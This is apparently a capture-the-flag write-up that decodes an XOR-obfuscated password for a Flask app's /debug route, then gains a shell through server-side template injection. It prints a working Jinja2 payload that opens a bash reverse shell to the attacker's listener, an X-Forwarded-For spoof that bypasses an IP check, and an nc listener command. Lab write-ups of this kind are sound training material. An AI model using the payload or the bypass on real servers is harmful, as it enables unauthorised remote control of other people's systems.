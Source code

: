 ### Decrypting the Password for /debug and Exploiting SSTI

We can decrypt the password needed for the `/debug` route by creating a `get_encrypted` script which reverses the `debugpassword.py` file. By calling this function and passing the encrypted password, we can unveil the actual password.

```python
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')

# Space is necessary
print(get_encrypted(' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'))
```

Executing this code snippet will print the password `'AyhamDeebugg'`.

Furthermore, we can exploit Server-Side Template Injection (SSTI) to gain a reverse shell. Here's the SSTI payload that takes advantage of the Flask environment to execute system commands:

```python
{{config.__class__.__init__.__globals__["os"].popen("bash -c \"bash -i >" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + " /dev/tcp/10.10.225.87/5000 0>" + config.__class__.__init__.__globals__["__builtins__"]["chr"](38) + "1\"")}}
```

Ensure to replace `10.10.225.87/5000` with your listener's IP address and port to receive the reverse shell.

### Executing the Payload via /debugresult

Now, with the decrypted password and the SSTI payload ready, we can execute it by navigating to the `/debugresult` route. However, there's an IP check in place, as seen in the `ip.py` file.

But by examining the `ip.py`, we find a bypass. We can spoof the IP check by adding the `X-Forwarded-For: 127.0.0.1` header to our request, tricking the application into thinking that the request is coming from the allowed IP address.

Once the IP check is bypassed, the payload will be executed, and we need to be ready to receive the reverse shell. On the attacker's machine, listen on port 5000, or whichever port was specified in the SSTI payload:

```shell
nc -lvnp 5000
```

Once everything is set and the payload is executed, we should receive a shell prompt similar to the following:

```shell
ayham@482cbf2305ae:/app$
```

Now, we have gained a shell on the target machine and can proceed with further exploitation or exploration.

---
